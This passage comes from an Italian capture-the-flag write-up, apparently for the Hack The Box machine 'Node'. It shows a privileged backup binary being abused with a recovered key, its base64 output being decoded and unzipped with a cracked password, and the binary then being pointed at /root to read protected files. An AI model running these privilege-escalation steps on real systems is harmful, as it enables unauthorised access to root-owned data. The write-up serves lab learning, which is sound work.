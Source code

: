 ```bash
      res.send({  
        authenticated: false  
      });  
    }  
  });
```

Il file accetta tre argomenti:

1. La stringa '-q'
2. Una chiave di backup che viene passata all'inizio dello script
3. Un percorso di directory

Proviamo a eseguire il file con gli argomenti precedenti.

```
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /tmp
```

Otteniamo una stringa decodificata base64. Sulla base dell'output del programma, ho intenzione di uscire su un arto e dire che sta eseguendo il backup del percorso della directory che viene passato come argomento.
Per verificarlo, esegui nuovamente il comando e salvalo nel file test, quindi base64 decodifica quel file.

```bash
tom@node:/tmp$ /usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /tmp > test
tom@node:/tmp$ cat test | base64 --decode > test-decodedtom@node:/tmp$ file test-decoded   
test-decoded: Zip archive data, at least v1.0 to extracttom@node:/tmp$ unzip test-decoded  
Archive:  test-decoded  
   creating: tmp/  
   creating: tmp/systemd-private-668dc95e5f5945b897532b0ae5e207b1-systemd-timesyncd.service-CwnioT/  
   creating: tmp/systemd-private-668dc95e5f5945b897532b0ae5e207b1-systemd-timesyncd.service-CwnioT/tmp/  
[test-decoded] tmp/test password:   
 extracting: tmp/test                  
   creating: tmp/.Test-unix/  
  inflating: tmp/LinEnum.sh            
   creating: tmp/.XIM-unix/  
   creating: tmp/vmware-root/  
   creating: tmp/.X11-unix/  
   creating: tmp/.ICE-unix/  
   creating: tmp/.font-unix/  
  inflating: tmp/pspy64
```

Quando decomprimiamo il file, usiamo la stessa password che abbiamo decifrato in precedenza (magicword).

Bene, passiamo il percorso del file root.txt come argomento al programma di backup.

```bash
tom@node:/tmp$ /usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /root > root
tom@node:/tmp$ cat root | base64 --decode > root-decoded

root@kali:~/Desktop/htb/node# file root-decoded  
root-decoded: Zip archive data, at least v?[0x333] to extract
root@kali:~/Desktop/htb/node# 7z x root-decoded
```
